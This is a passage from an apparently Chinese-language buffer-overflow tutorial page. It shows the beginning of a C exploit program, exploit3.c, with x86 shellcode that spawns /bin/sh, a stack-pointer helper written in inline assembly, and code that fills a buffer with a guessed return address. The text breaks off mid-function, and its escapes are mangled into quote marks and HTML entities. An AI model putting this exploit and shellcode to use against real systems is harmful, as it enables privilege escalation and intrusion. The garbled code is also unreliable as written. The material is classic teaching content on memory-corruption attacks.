 &nbsp; &nbsp; 新的破解程序如下:

&nbsp; &nbsp; 

exploit3.c

------------------------------------------------------------------------------

#include &lt;stdlib.h&gt;

#define DEFAULT_OFFSET&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;0

#define DEFAULT_BUFFER_SIZE&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; 512

#define NOP&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; 0x90

char shellcode[] =

&nbsp;&nbsp;""xeb"x1f"x5e"x89"x76"x08"x31"xc0"x88"x46"x07"x89"x46"x0c"xb0"x0b"

&nbsp;&nbsp;""x89"xf3"x8d"x4e"x08"x8d"x56"x0c"xcd"x80"x31"xdb"x89"xd8"x40"xcd"

&nbsp;&nbsp;""x80"xe8"xdc"xff"xff"xff/bin/sh";

unsigned long get_sp(void) {

&nbsp; &nbsp;__asm__("movl %esp,%eax");

}

void main(int argc, char *argv[]) {

&nbsp;&nbsp;char *buff, *ptr;

&nbsp;&nbsp;long *addr_ptr, addr;

&nbsp;&nbsp;int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;

&nbsp;&nbsp;int i;

&nbsp;&nbsp;if (argc &gt; 1) bsize&nbsp;&nbsp;= atoi(argv[1]);

&nbsp;&nbsp;if (argc &gt; 2) offset = atoi(argv[2]);

&nbsp;&nbsp;if (!(buff = malloc(bsize))) {

&nbsp; &nbsp; printf("Can't allocate memory."n");

&nbsp; &nbsp; exit(0);

&nbsp;&nbsp;}

&nbsp;&nbsp;addr = get_sp() - offset;

&nbsp;&nbsp;printf("Using address: 0x%x"n", addr);

&nbsp;&nbsp;ptr = buff;

&nbsp;&nbsp;addr_ptr = (long *) ptr;

&nbsp;&nbsp;for (i = 0; i &lt; bsize; i+=4)

&nbsp; &nbsp; *(addr_ptr++) = addr;
